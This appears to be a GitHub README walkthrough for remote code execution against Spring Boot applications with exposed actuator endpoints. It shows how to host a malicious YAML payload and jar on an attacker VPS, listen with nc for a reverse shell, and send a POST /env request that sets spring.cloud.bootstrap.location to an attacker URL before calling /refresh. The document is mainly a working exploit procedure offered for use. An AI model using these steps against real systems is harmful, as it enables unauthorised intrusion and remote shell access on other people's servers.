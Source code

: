 # spring-rce
spring-rce

You can see that the main interface can log in without authorization. Of course, not logging in may also trigger this vulnerability
![image](https://user-images.githubusercontent.com/83150001/115980614-b2fa8b00-a5c0-11eb-9d62-edd3a1ed8d1c.png)

Add / env to the path of the website to see the error information in the log

![image](https://user-images.githubusercontent.com/83150001/115980640-d8879480-a5c0-11eb-87eb-1123b2387d8f.png)


Environmental preparation:
Open the web service on VPS and add yaml- payload.yml , and yaml- payload.jar Upload to the server, as shown in the figure below.

python3 -m http.server 8088
![image](https://user-images.githubusercontent.com/83150001/115980675-23091100-a5c1-11eb-95df-4edeadb81b06.png)


![image](https://user-images.githubusercontent.com/83150001/115980673-1f758a00-a5c1-11eb-9ad8-c19a1a391a2f.png)

NC monitor rebound port.

![image](https://user-images.githubusercontent.com/83150001/115980741-90b53d00-a5c1-11eb-922b-40de92a6cc53.png)

The file payload of YML is as follows:

![image](https://user-images.githubusercontent.com/83150001/115980759-b3dfec80-a5c1-11eb-8cf7-2641ab86d7b6.png)

yaml-payload.jar You need to download and modify the compilation
Download address：
https://github.com/artsploit/yaml-payload


Start using the following: modify the request

Send request package:

POST /env 
spring.cloud.bootstrap.location=http://attackerIP:port/yaml-payload.yml
![image](https://user-images.githubusercontent.com/83150001/115980828-43859b00-a5c2-11eb-9b85-276091a0ae9c.png)

Request / refresh interface, refresh interface configuration, and successfully rebound the session to VPS.
![image](https://user-images.githubusercontent.com/83150001/115980857-7891ed80-a5c2-11eb-8bb5-a0704518c5f9.png)






